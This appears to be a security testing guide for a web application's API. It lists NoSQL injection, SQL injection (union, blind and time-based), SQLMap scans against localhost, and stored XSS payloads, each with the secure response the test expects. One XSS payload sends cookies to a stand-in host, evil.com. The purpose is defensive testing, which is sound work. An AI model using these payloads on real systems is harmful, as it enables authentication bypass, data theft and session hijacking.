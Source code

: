 #### 3. NoSQL Injection

**Test**: MongoDB-style injection
```bash
POST /api/auth/login
{
  "email": {"$ne": null},
  "password": {"$ne": null}
}

# Expected: 400 Bad Request
# Should not bypass authentication
```

## SQL Injection Testing

### Manual Testing

```bash
# Test 1: Union-based injection
GET /api/jobs?id=1' UNION SELECT null,username,password FROM users--

# Test 2: Boolean-based blind injection
GET /api/jobs?id=1' AND 1=1--
GET /api/jobs?id=1' AND 1=2--

# Test 3: Time-based blind injection
GET /api/jobs?id=1' AND SLEEP(5)--

# All should return 400 Bad Request or sanitized results
```

### Automated Testing with SQLMap

```bash
# Install SQLMap
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

# Test an endpoint
python sqlmap.py -u "http://localhost:4000/api/jobs?id=1" \
  --cookie="token=<your_jwt_token>" \
  --level=5 --risk=3

# Expected: No vulnerabilities found
```

## XSS Testing

### Test Cases

**Test**: Stored XSS
```bash
POST /api/jobs
Authorization: Bearer <token>
{
  "title": "<img src=x onerror=alert('XSS')>",
  "description": "<script>document.location='http://evil.com?cookie='+document.cookie</script>"
}

# Expected: Content should be escaped/sanitized
```

